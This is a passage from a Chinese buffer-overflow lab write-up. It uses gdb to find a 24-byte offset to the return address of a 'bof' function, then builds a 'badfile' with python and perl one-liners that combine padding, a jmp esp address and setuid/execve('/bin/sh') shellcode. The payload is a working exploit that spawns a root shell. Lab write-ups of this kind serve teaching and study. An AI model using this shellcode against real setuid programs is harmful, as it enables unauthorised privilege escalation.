 可见，bof 函数结束的地址为 `0x080484cc`。

在 0x080484cc 地址处设置断点，运行到断点处后，再查看内存情况。

```bash
b*0x080484cc

r

x/20xw $esp
```

![image-20220322095515822](Buffer_Overflowproj/image-20220322095515822.png)

可以看出 buffer 的首地址离存放 bof 返回地址的地址差了$6\times4=24$ 个 字节，即在 jmp esp 地址前填充 24 个字符即可。

### 攻击

修改 badfile 后再进行攻击。先确定 jmp esp 的地址。

重新编写 badfile，使用如下命令

```bash
python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAA\x24\xa0\x04\x08\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"' > badfile

perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAA\x24\xa0\x04\x08\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"' > badfile
```

![image-20220322095954354](Buffer_Overflowproj/image-20220322095954354.png)
